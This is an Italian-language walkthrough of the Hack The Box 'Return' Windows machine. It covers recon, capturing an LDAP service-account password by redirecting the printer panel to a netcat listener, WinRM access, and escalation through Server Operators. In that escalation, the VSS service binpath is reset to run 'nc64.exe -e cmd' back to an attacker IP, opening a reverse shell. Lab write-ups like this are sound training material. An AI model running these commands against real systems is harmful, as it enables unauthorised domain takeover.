



# Return
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Windows
* **RATING**: 4.6

## 1. Recon
```shell
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.108
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 16:17 EDT
Nmap scan report for 10.10.11.108
Host is up (0.13s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-24 20:36:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-06-24T20:36:49
|_  start_date: N/A
|_clock-skew: 18m37s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.99 seconds
```

### 1.1 SMB - TCP 445
#
`crackmapexec` ci mostra che l'hostname è **PRINTER.return.local**

```shell
└─$ crackmapexec smb 10.10.11.108 --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

### 1.2 Website - TCP 80
#
Il sito è il *HTB Printer Admin Panel* 



E l'unico endpoint, oltre */index.php* è */settings.php*

<p align="center">
  
</p>

## 2. Shell as svc-printer
La cosa che si nota è che la password è offuscata.

### 2.1 Recupero password
#
Proviamo analizzando il sorgente ma è sempre offuscata

<p align="center">
  
</p>

Quindi intercettiamo la richiesta con *burp* ma notiamo che c'è solo un argomento *ip*

```
POST /settings.php HTTP/1.1
Host: 10.10.11.108
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.108
Connection: close
Referer: http://10.10.11.108/settings.php
Upgrade-Insecure-Requests: 1

ip=printer.return.local
```

Seguendo tale info, possiamo pensare di cambiare l'ip di destinazione, inserendo il nostro (tun0), vedendo se in qualche modo veniamo contattati e riusciamo a vedere la password.

Quindi lanciamo *nc* sulla nostra macchina e facciamo l'update dei nuovi settings

<p align="center">
  
</p>

Abbiamo la password -> `1edFg43012!!`

### 2.2 Check credenziali
#
Prima di accedere realmente al servizio, facciamo un check delle credenziali con `crackmapexec`

```shell
└─$ crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

È anche interessante l'output di `winrm` poichè ci dice che può funziare WinRM

```shell
└─$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

### 2.3 Evil-WinRM
#
```shell
└─$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

In *C:\Users\svc-printer\Desktop* abbiamo la user flag: `eecac6cba881cdb306e11d1b3c6c6524`

## 3. Shell as SYSTEM
Iniziamo con una enumerazione

### 3.1 Privilegi
#
Interessanti sono i privilegi

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

### 3.2 Gruppi
#
Interessanti sono anche i gruppi cui fa parte *svc-printer*

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Ci sono molte cose, ma quella che ha preso la mia attenzione è [**Server Operators**](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) che fa molte cose interessanti: 

*A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. Default User Rights: Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege*

### 3.3 Reverse Shell
#
Carichiamo l'exe di netcat

```shell
*Evil-WinRM* PS C:\programdata> upload /home/asd/Scrivania/Return/nc64.exe
Info: Uploading /home/asd/Scrivania/Return/nc64.exe to C:\programdata\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Cercando su Google ho trovato [questo](https://cube0x0.github.io/Pocing-Beyond-DA/) articolo che parla di come fare privilege escalation anche per il nostro contesto. 

Leggendo, ho visto questo comando `sc.exe config VSS`, quindi ho modificato il payload ed eseguito il comando per avere la reverse shell.

```shell
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.9 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:
                                                                                                                    
The service did not respond to the start or control request in a timely fashion.       
```

```shell
└─$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 61653
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `763fc3b1e5fd9e6c1af98badd28952dd`